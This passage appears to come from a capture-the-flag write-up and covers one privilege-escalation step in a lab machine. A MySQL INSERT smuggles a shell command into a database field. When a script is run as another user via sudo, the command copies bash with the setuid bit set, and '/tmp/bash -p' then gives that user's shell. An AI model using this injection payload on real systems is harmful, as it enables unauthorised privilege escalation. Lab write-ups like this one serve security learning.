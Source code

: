 ### shell by mysql
`INSERT INTO dreams (dreamer, dream) VALUES ('0xb0b','$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)');`

![](https://0xb0b.gitbook.io/~gitbook/image?url=https%3A%2F%2F2148487935-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FoqaFccsCrwKo1CHmLRKW%252Fuploads%252FWo9b0okktfG9jClq0n5G%252Fgrafik.png%3Falt%3Dmedia%26token%3Df3042a73-fd20-4dfe-af08-60a2d8992c61&width=768&dpr=4&quality=100&sign=ddd3947a&sv=1)


```mysql
+---------+------------------------------------------------+
| dreamer | dream                                          |
+---------+------------------------------------------------+
| Alice   | Flying in the sky                              |
| Bob     | Exploring ancient ruins                        |
| Carol   | Becoming a successful entrepreneur             |
| Dave    | Becoming a professional musician               |
| 0xb0b   | $(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash) |
+---------+------------------------------------------------+
5 rows in set (0.00 sec)

```

We run `sudo -u death /usr/bin/python3 /home/death/getDreams.py` after making the entry in the database, and the bash is copied to `/tmp`.

Now, with executing `/tmp/bash -p` we now have a shell as `death`.